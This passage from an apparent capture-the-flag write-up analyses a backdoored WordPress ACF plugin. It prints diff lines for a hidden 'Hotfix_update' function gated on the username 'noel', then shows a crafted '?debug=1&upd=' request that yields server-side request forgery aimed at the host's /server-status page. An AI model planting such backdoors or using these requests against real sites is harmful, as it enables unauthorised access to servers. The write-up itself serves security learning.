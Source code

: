 Going to the ACF plugin, we find the zip file **ACF.zip**, so if we want to get more details, we can just compare this zip file with the original one `https://www.advancedcustomfields.com/Downloads/`

```
git diff ACF ACF_1
```

Give us some result :

<p align="center"><img src="https://user-images.githubusercontent.com/7364615/71365900-9e5b4c80-25a0-11ea-8bfe-ae208b893260.png"></p>

As we see, there is a new `Load_Hotfix()` & `Hotfix_update()` function added by the hacker as a backdoor to the `updates.php` file ,with comment at the end `// / server-status`

It is a function which uses another real wordpress function to make a call, does he have a 0day on this function or what ??

<p align="center"><img src="https://media.giphy.com/media/l2QDZFG1IXD4zbuRq/giphy.gif"></p>

Let's start by debugging more, he just created a function called `Load_Hotfix` to confuse others with the real name ,look like he is trying to hide it, the function looks good but it has bad behavior .

```
-               if ($user === "noel" && $_GET['debug'] === "1") {
-                       $ACF_Hotfix = new ACF_Updates();
-                       $ACF_Hotfix->Hotfix_update($_GET['upd']);
-               }

```

<p align="center"><img src="https://user-images.githubusercontent.com/7364615/71374164-f5215000-25b9-11ea-8f9d-ff707d0b1a35.png"></p>

This function only works if the user is logged in and the username is `noel` , it also checks the `debug` parameter if it is there, it will use another `upd` parameter and will call `Hotfix_update()` who will request specific URL!

Wait, was this hacker just a lazy pirate ?? are you sure for real!

<p align="center"><img src="https://media.giphy.com/media/10uct1aSFT7QiY/giphy.gif"></p>

Anyway, let's move on, as we have already disclosed some users when we enter the `1337` service, one of these users called `noel` same name as this hacker is looking for!

Why don't we just try to log in with this password? , we will first go to `http://3.19.111.121/wp-admin/` but it was not accessible and redirects us to the index page, but we also assume to be hackers "hunter", we can connect from here `http://3.19.111.121/wp-login.php`

And yes, we just got IN guys :), let's check out what we can do with this pirate backdoor

By sending this `http://3.19.111.121/?debug=1&upd=https://google.com` we get this output result

<p align="center"><img src="https://user-images.githubusercontent.com/7364615/71374217-344fa100-25ba-11ea-91a1-19e1173f3997.png"></p>

Looks like we have SSRF `Server Side Request Forgery` here, but what we can do next?

As we was crawling the website , we notice that `http://3.19.111.121/server-status` gives us forbidden page, what if we can access it from the inside? :)
